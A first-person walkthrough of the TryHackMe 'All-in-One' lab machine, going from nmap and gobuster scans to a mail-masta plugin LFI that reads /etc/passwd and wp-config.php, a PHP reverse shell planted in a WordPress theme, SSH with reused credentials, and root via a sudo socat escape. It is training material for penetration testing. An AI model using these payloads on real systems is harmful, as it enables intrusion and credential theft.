 # TryHackMe - All-in-One Walkthrough

This write-up covers the steps I took to complete the "All-in-One(https://tryhackme.com/room/allinonemj)" room on TryHackMe.  
The machine focuses on WordPress exploitation, LFI, privilege escalation, and is a great challenge for anyone looking to sharpen their penetration testing skills.

Below you'll find the full process I followed — from enumeration to privilege escalation.

> ⚠️ This write-up contains spoilers. Proceed only if you've already tried the machine or are stuck.

# 1. Port Scanning
👁️ Using nmap:
```python
nmap -sC -sV -oN result 10.10.49.154
````
Result:
```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
````
# 2. FTP Enumeration
Anonymous login is allowed:
```python
ftp 10.10.49.154
````
However, no useful files were found.
# 3. Directory Enumeration (Gobuster)
```python
gobuster dir -u http://10.10.49.154 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50
````
Interesting findings:
```python
/wordpress (301)
/index.html (200)
````
Re-scan on /wordpress:
```python
gobuster dir -u http://10.10.49.154/wordpress -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
````
Key files discovered:
```python
wp-login.php
wp-config.php
wp-mail.php (403)
xmlrpc.php, wp-cron.php, etc
````
# 4. LFI Exploitation via mail-masta Plugin
Researching leads to a known vulnerability:
```python
https://www.exploit-db.com/exploits/40290
````
Local File Inclusion (LFI) test:
```python
http://10.10.49.154/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
````
To read sensitive files like wp-config.php, we used Base64 encoding:
```python
http://10.10.49.154/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
````
Decoded Base64 output reveals:
```python
DB_USER: elyana  
DB_PASSWORD: ********
````
# 5. WordPress Login and Shell Upload
1 Login to /wp-login.php as user elyana

2 Navigate to Appearance > Theme Editor > 404.php

3 Upload a PHP reverse shell into the 404 template

Listener setup:
```python
nc -lvnp 4444
````
Trigger reverse shell:
```python
http://10.10.49.154/wordpress/wp-content/themes/twentytwenty/404.php
````
#  Privilege Escalation
We inspect config files:
```python
cat /etc/mysql/conf.d
````
Found additional credentials:
```python
user: elyana
password: ********
````
SSH into the machine:
```python
ssh elyana@10.10.49.154
````
Retrieve the user flag:
```python
cat user.txt
````
# Root Privileges via socat
Check sudo rights:
```python
sudo -l
````
Output:
```python
(ALL) NOPASSWD: /usr/bin/socat
````

From GTFOBins:
```python
https://gtfobins.github.io/gtfobins/socat/
````
```python
sudo socat stdin exec:/bin/sh
````
Now root:
```python
whoami
root
cat /root/root.txt
````
 # <b>This was my first ever write-up, and I truly hope it was helpful to someone out there.  
Thanks for reading, and happy hacking!</b>
